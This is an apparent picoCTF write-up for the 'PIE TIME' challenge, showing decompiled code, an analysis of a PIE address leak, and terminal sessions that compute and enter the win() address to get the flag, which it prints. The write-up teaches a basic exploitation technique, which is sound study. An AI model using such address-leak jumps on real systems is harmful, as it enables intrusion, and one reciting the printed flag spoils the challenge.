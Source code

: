 ```yaml
---
title: PicoCTF - PIE TIME
published: 2025-08-07
description: PicoCTF Writeup for PIE TIME Challenge
tags: [binary exploitation, easy, picoCTF 2025]
category: PicoCTF Writeup
draft: false
lang: en
---
```


# PicoCTF Writeup - PIE TIME

PicoCTF Challenge: 
[https://play.picoctf.org/practice/challenge/490?category=6&page=1](https://play.picoctf.org/practice/challenge/490?category=6&page=1)

> ## PIE TIME
> Author: Darkraicg492
> 
> ### Description
> Can you try to get the flag? Beware we have PIE!<br>
> Additional details will be available after launching your challenge instance.<br>
> ### Hints
> 1st - Can you figure out what changed between the address you found locally and in the server output?<br>
> ### Resources:
> Source Code: [/vuln.c](https://challenge-files.picoctf.net/c_rescued_float/1d01af98df77f5ba0339c7e7ba2031e95c3bcce1397dc3b60617dfcfe2e4c7be/vuln.c)<br>
> Binary: [/vuln](https://challenge-files.picoctf.net/c_rescued_float/1d01af98df77f5ba0339c7e7ba2031e95c3bcce1397dc3b60617dfcfe2e4c7be/vuln)<br>

```bash title="Server Information"
$ nc rescued-float.picoctf.net 59097
```

## Decompile

We can decompile the binary to a pseudo C like this (Binary Ninja):

```c title="/vuln_original.c"
00401289    void segfault_handler() __noreturn

00401289    {
00401289        puts("Segfault Occurred, incorrect add…");
004012a2        exit(0);
004012a2        /* no return */
00401289    }

/* ... */

004012a7    int win()
004012a7    /* all puts, putchar should be changed to printf() */

004012a7    {
004012a7        puts("You won!");
004012cd        FILE* fp = fopen("flag.txt", "r");
004012cd        
004012db        if (!fp)
004012db        {
004012ff            puts("Cannot open file.");
004012ee            exit(0);
004012ee            /* no return */
004012db        }
004012db        

00401322        char i = fgetc(fp);
00401322        while (i != EOF) { /* 0xff => EOF */
00401322            putchar(i)
00401322        }

00401322        
00401329        putchar("\n"); /* \n in ASCII code (line-break) */
0040133c        return fclose(fp);
004012a7    }


/* ... */

0040133d    int main()
0040133d    /* int32_t argc => Not used */
0040133d    /* char** argv => Not used */
0040133d    /* char** envp => Not used */

0040133d    {
0040133d        void* fsbase;
00401349        int64_t rax = *(uint64_t*)((char*)fsbase + 0x28);
00401349        /* No needed */

00401364        signal(SIGSEGV, segfault_handler); /* 0xb => SIGSEGV */
00401382        setvbuf(stdout, NULL, _IONBF, 0);
00401382        /* __TMC_END__ => stdout */
00401382        /* nullptr => NULL */
00401382        /* 2 => _IONBF (no buffering) */


0040139a        printf("Address of main: %p\n", &main);
0040139a        /* &main to show memory pointer */

004013ab        printf("Enter the address to jump to, ex => 0x12345: ");
004013c3        unsigned long buffer;
004013c3        /* var_20 => buffer (stores a memory address) */
004013c3        scanf("%lx", &buffer);
004013c3        /* __isoc99_scanf => scanf */

004013db        printf("Your input: %lx\n", buffer);

004013ec        void (*target_func)(void) = (void (*)())buffer;
004013ec        /* need to declare as a function before jump */
004013ec        target_func();
004013ec        /* jump to the memory location that user provided */    

004013ec        
00401400        /* Useless from below here */
00401400        if (rax == *(uint64_t*)((char*)fsbase + 0x28))
00401408            return 0;
00401408        
00401402        __stack_chk_fail();
00401402        /* no return */
0040133d    }

```

This is the full source code (decompiled):

```c title="/vuln.c"
void segfault_handler()
{
    printf("Segfault Occurred, incorrect address.");
    exit(0);
}

int win()
{
    printf("You won!");
    FILE* fp = fopen("flag.txt", "r");   
    if (!fp)
    {
        printf("Cannot open file.");
        exit(0);
    } 

    char i = fgetc(fp);
    while (i != EOF) {
        printf("%c", i)
    }
 
    printf("\n");
    return fclose(fp);
}

int main()
{
    signal(SIGSEGV, segfault_handler);
    setvbuf(stdout, NULL, _IONBF, 0);

    printf("Address of main: %p\n", &main);
    printf("Enter the address to jump to, ex => 0x12345: ");
    unsigned long buffer;
    scanf("%lx", &buffer);
    printf("Your input: %lx\n", buffer);

    void (*target_func)(void) = (void (*)())buffer;
    target_func(); 
}
```

## Analysis
This program directly jumps to the memory address provided by the user. Additionally, it automatically reveals the address of the `main()` function. By using this address, the user can infer the address of the `win()` function. If the correct address is entered, the program will print the flag.

```c
004012a7    int64_t win() /* 0x0004012a7 */
```

```bash
therustymate-picoctf@webshell:~$ vuln
-bash: vuln: command not found

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x564a8857633d
Enter the address to jump to, ex => 0x12345: 0x0004012a7
Your input: 4012a7
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x55958f4eb33d
Enter the address to jump to, ex => 0x12345: 0x4012a7
Your input: 4012a7
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x56426097933d
Enter the address to jump to, ex => 0x12345: 004012a         
Your input: 4012a
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x55d43b65e33d
Enter the address to jump to, ex => 0x12345: 0x55343b64012a
Your input: 55343b64012a
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x560ada01333d
Enter the address to jump to, ex => 0x12345: 0x560ada0132ㅁ7           
Your input: 560ada0132
Segfault Occurred, incorrect address.
```

Notice that the `main()` function offset **33d** does not change.<br>
Therefore, the base address is `0xXXXXXXXX+func (3 bytes)`

This suggests that the input should be: `0xXXXXXXXX2a7` in order to jump to the `win()` function.

```bash
therustymate-picoctf@webshell:~$ nc rescued-float.picoctf.net 59097
Address of main: 0x5fd38eed433d
Enter the address to jump to, ex => 0x12345: 0x5fd38eed42a7
Your input: 5fd38eed42a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_00dea386}
```

The flag is: `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_00dea386}`